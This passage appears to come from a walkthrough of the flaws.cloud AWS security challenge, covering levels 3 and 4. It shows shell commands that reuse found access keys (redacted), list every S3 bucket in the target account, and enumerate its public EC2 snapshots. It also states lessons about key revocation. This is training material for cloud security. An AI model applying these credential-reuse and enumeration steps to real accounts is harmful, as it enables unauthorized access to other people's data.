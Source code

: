 View access keys: 

`cat access_keys.txt`
```
(redacted)
```

Create local profile using the access keys: 

`aws configure --profile flaws`

List all buckets: 

`aws --profile flaws s3 ls`
```
2017-02-12 16:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 12:34:53 config-bucket-975426262029
2017-02-12 15:03:24 flaws-logs
2017-02-04 22:40:07 flaws.cloud
2017-02-23 20:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 13:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 13:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 14:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 14:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 15:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

## Lesson Learned: 
```
Revoke all keys that could have been leaked or misplaced
```
```
There is no way to limit which buckets a user with 'ListBuckets' permission can list. It is all or none.
```

# Level 4
For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud

It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.

Need a hint? Go to Hint 1

List all public EC2 snapshots in the target account: 

`aws --profile default ec2 describe-snapshots --owner-id 975426262029 --region us-west-2`

```
{
    "Snapshots": [
        {
            "Description": "",
            "Encrypted": false,
            "OwnerId": "975426262029",
            "Progress": "100%",
            "SnapshotId": "snap-0b49342abd1bdcb89",
            "StartTime": "2017-02-28T01:35:12+00:00",
            "State": "completed",
            "VolumeId": "vol-04f1c039bc13ea950",
            "VolumeSize": 8,
            "Tags": [
                {
                    "Key": "Name",
                    "Value": "flaws backup 2017.02.27"
                }
            ]
        }
```